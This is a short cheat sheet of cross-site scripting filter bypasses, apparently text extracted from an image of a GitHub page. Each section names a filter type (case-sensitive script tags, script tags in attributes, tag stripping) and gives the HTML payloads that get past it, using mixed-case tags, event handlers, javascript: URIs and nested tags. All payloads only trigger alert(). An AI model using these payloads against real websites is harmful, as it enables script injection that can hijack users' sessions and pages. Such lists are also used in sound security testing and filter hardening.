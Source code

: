 
---

## Filter Bypasses

### Filter: Script Tags (Case Sensitivity)
```html
<ScripT>alert(1)</script>
sript<ImG src=x onerror=alert()>
```

### Filter: Script Tags (Second Occurrence)
```html
<ScripT>alert(1)</script><ScripT>alert(1)</script>
```

### Filter: Script Tags
```html
<u onmouseover=alert(1);//>test123
```

### Filter: Script Tags in Attributes
```html
<iframe src=javascript:alert();></iframe>
<a href=javascript:alert(2)>click_me</a>
```

### Filter: All Tags (Tagless Output – Pure Text Rendering)
```html
<scr<script>ipt>alert()</scr</script>ipt>
```
